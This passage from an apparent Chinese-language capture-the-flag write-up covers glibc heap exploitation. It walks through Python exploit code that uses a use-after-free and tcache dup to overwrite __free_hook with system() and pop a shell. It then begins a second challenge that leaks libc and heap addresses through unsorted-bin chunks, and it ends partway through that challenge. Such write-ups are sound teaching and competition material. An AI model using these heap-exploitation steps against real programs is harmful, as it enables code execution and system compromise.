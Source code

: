 最後再次透過 UAF 拿到 `__free_hook` 並寫上 `system()`，而這邊直接用一開始用來 tcache dup 的 ptr，先 delete 指向 `chunk 0` 的 `ptr[1]`，再利用同樣指向 `chunk 0` 的 `ptr[5]` 改掉 fd，最後 `create` 兩次就能拿到 `__free_hook`。
```python
delete(1)
edit(5, p64(free_hook))
add(0x18, 'QQ') # ptr[8]
add(0x18, p64(system_addr)) # ptr[9]
```

隨便修改沒有被 delete 過的 ptr 如 `ptr[6]`，改成 `/bin/sh\x00`，最後 delete `ptr[6]`，會因為 `__free_hook` 的關係 call `system('/bin/sh')`
```python
edit(6, b"/bin/sh\x00")
delete(6)
```

## childnote 👦
> 因為我的打法需要控制好 allocate 的 size，所以 payload 的 size 都不能改到

題目非常簡潔，跟第一題的功能相似，不過細節差滿多的：
1. 分配的 chunks size 在 `0x80 ~ 0x100`，並且會把 size 記錄在 (chunk+0) 的地方
2. 是用 `calloc()` 來要 memory
3. 最多 create 17 個 chunk
4. 一樣有 UAF 可以用 (Double Free)

這邊一共 create 了 9 塊 chunk，因為 libc 要從 unsorted bin 拿，所以 7 塊拿來**填滿 tcache**，剩下的 2 塊需要用來在之後做 merge。<br>
而這邊從最後一個開始刪是避免多用一塊來防止 consolidate。這邊寫了許多 `0x100`，是之後在攻擊時，會有 next_size check，不過我不想要算 offset，所以直接 spray 許多 `0x100`
```python
for i in range(0x9): # 0~8
    add(0x90, p64(0x100)*0x10)

for i in range(8, 1, -1):
    delete(i)
```

而我這邊需要多一塊 `0xb0`，是因為要讓 heap 一開始的 tcache struct 有 `0x0000000000000100` 的 address 可以讓我之後用 fastbin 拿到
```python
add(0xb0, 'A') # 9
delete(9)
```

透過 `show()`，分別從 `ptr[0]` leak 出 unsorted bin address，以及從 `ptr[3]` leak 出 heap 的位置，之後這個部分都是在算需要的位置。<br>
並且這邊 delete 掉 `ptr[0]` 與 `ptr[1]`，讓兩個 chunk merge 成一個 chunk，由 `ptr[0]` 為 chunk start
```python
heap = show(3) & 0xfffffffff000
log.info(f"heap: {hex(heap)}")
delete(0)
delete(1)
libc_addr = show(0) - 0x1ebbe0 # main_arena + 96
global_max_fast = libc_addr + 0x1eeb80
system_addr = libc_addr + 0x55410
free_hook = libc_addr + 0x1eeb28
log.info(f"libc_addr: {hex(libc_addr)}")
log.info(f"global_max_fast: {hex(global_max_fast)}")
log.info(f"system_addr: {hex(system_addr)}")
log.info(f"free_hook: {hex(free_hook)}")
```
